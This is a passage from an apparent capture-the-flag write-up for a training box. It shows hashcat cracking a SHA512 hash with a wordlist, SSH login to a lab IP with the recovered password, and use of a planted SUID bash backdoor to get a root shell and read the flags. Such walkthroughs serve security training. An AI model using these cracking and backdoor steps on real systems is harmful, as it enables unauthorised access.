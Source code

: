 Then I'll use hashcat to crack it. The source code says it's SHA512:

```
hashcat -m 1710 hash.txt /usr/share/wordlists/rockyou.txt
```

The resulting password is __`november16`__.

Now we need to hack our way back in and retrieve the flags. 

- The attacker defaced the website. What message did they leave as a heading?

__`H4ck3d by CooctusClan`__

Let's go back in:

```
ssh james@10.10.59.67 -p 2222 -oHostKeyAlgorithms=+ssh-rsa

```

Use `november16` as password.

```
cat /home/james/user.txt
```

User flag.

<sup>_Assisted by [Write-up](https://medium.com/@mat.redzia/overpass-2-tryhackme-write-up-fc809b608864)_</sup> There is also an `.suid_bash` binary in `james`' home directory:

```
./.suid_bash -p
```

This runs a root shell.

```
cat /root/root.txt
```

Root flag.
